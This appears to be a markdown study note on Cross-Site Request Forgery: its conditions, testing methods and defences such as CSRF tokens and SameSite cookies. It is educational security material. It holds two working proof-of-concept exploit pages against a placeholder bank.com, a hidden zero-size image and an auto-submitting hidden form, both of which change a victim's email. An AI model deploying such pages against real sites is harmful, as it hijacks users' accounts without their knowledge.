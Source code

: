 # Cross-Site Request Forgery (CSRF)
---

## What is CSRF?

CSRF is an attack where the attacker causes the victim user to carry out an action unintentionally while that user is authenticated.

### CSRF Conditions

To successfully exploit a CSRF vulnerability, the following conditions must be true:

* Relevant Action
* Cookie-Based Session Handling
* No Unpredictable Parameters

### Impact of CSRF Attacks
* Depends on the functionality in the application that is being exploited
  * Confidentiality – it can be None / Partial (Low) / High
  * Integrity – usually either Partial or High
  * Availability – can be None / Partial (Low) / High
* Remote code execution on the server

---

## How to Find CSRF Vulnerabilities

### Black-Box Testing Perspective

* Map the application
  * Review all the key functionality in the application
* Identify all application functions that satisfy the
following three conditions
  * A relevant action
  * Cookie-based session handling
  * No unpredictable request parameters
* Create a PoC script to exploit CSRF
  * GET request: `<img>` tag with `src` attribute set to vulnerable
URL
  * POST request: form with hidden fields for all the required
parameters and the target set to vulnerable URL

### White-Box Testing Perspective

* Identify the framework that is being used by the
application
* Find out how this framework defends against
CSRF attacks
* Review code to ensure that the built in defenses
have not been disabled
* Review all sensitive functionality to ensure that
the CSRF defense has been applied

---

## How to Exploit CSRF Vulnerabilities

### Exploiting CSRF - GET Scenario

#### Example Request
`GET https://bank.com/email/change?email=test@test.ca HTTP/1.1`


#### Exploit Example
```html
<html>
<body>
<h1>Hello World!</h1>
<img src="
https://bank.com/email/change?email=at
tacker@gmail.ca
" width="0" height="0" border="0">
</body>
</html>
```

### Exploiting CSRF - POST Scenario

#### Example Request

```html
POST /email/change HTTP/1.1
Host: https://bank.com
…
email=test@test.ca
```

### Exploit Example
```html
<html>
  <body>
    <h1>Hello World!</h1>
    <iframe style="display:none" name="csrf-iframe"></iframe>
    <form action="https://bank.com/email/change/" method="POST" target="csrf-iframe" id="csrf-form">
      <input type="hidden" name="email" value="test@test.ca" />
    </form>
    <script>
      document.getElementById("csrf-form").submit();
    </script>
  </body>
</html>
```

---

## How to Prevent CSRF Vulnerabilities

* Primary Defense
  * Use a CSRF token in relevant requests.
* Additional Defense
  * Use of SameSite cookies
* Inadequate Defense
  * Use of Referer header

### Primary Defense: CSRF Tokens

#### How should CSRF tokens be generated?
* Unpredictable with high entropy, similar to session tokens
* Tied to the user's session
* Validated before the relevant action is executed

#### How should CSRF tokens be transmitted?
* Hidden field of an HTML form that is submitted using a POST method
* Custom request header
* Tokens submitted in the URL query string are less secure
* Tokens generally should not be transmitted within cookies

#### How should CSRF tokens be validated?
* Generated tokens should be stored server-side within the user’s session data
* When performing a request, a validation should be performed that verifies that the submitted token matches the value that is
stored in the user’s session
* Validation should be performed regardless of HTTP method or content type of the request
* If a token is not submitted, the request should be rejected

### Additional Defense: SameSite Cookies

The `SameSite` attribute can control whether cookies are submitted in cross-site requests.

#### Examples
```xml
Set-Cookie: session=test; SameSite=Strict
Set-Cookie: session=test; SameSite=Lax
Set-Cookie: flavor=choco; SameSite=None; Secure
```

### Inadequate Defense: Referer Header

* The Referer HTTP request header contains an absolute or partial address of
the page making the request.
  * Referer headers can be spoofed
  * The defense can usually be bypassed:
    * Example #1 – if it’s not present, the application does not check for it
    * Example #2 – the referrer header is only checked to see if it contains the domain and exact
match is not made.

---

## Resources

- [Web Security Academy - CSRF](https://portswigger.net/web-security/csrf)
- [OWASP - CSRF](https://owasp.org/www-community/attacks/csrf)
- [Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- [OWASP Code Review Guide - Reviewing Code for CSRF Issues](https://owasp.org/www-project-code-review-guide/reviewing-code-for-csrf-issues)


